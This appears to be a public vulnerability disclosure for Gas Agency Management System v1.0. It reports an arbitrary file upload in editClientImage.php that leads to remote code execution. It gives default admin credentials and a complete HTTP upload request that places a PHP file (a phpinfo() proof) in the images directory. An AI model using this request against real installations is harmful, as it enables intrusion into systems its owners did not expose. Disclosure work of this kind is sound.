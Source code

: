 # Gas Agency Management System v1.0 by mayuri_k has arbitrary code execution (RCE)

BUG_Author: 白万荣

vendors: https://www.sourcecodester.com/php/15586/gas-agency-management-system-project-php-free-download-source-code.html

The program is built using the xmapp-php8.1 version

Login account: mayuri.infospace@gmail.com/admin (Super Admin account)

Vulnerability url: ip/gasmark/php_action/editClientImage.php?id=1

Loophole location: arbitrary file upload exists in Gas Agency Management System's editClientImage.php file (RCE).

Request package for file upload：

```sql
POST /gasmark/php_action/editClientImage.php?id=1 HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Referer: http://192.168.1.88/gasmark/editclient.php?id=1
Cookie: PHPSESSID=1848l0sacnthbvkk77stfdihkh
Connection: close
Content-Type: multipart/form-data; boundary=---------------------------299472295912533
Content-Length: 439

-----------------------------299472295912533
Content-Disposition: form-data; name="old_image"

pexels-italo-melo-2379005.jpg
-----------------------------299472295912533
Content-Disposition: form-data; name="productImage"; filename="2.php"
Content-Type: image/jpeg

<?php phpinfo();>
-----------------------------299472295912533
Content-Disposition: form-data; name="btn"


-----------------------------299472295912533--
```

The files will be uploaded to this directory \gasmark\assets\myimages
![image](https://github.com/assets/54017627/b16051b7-d591-4250-83a8-58d83d153ee6)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://github.com/assets/54017627/59d817be-dca5-44c1-ae95-ea173d7c4605)
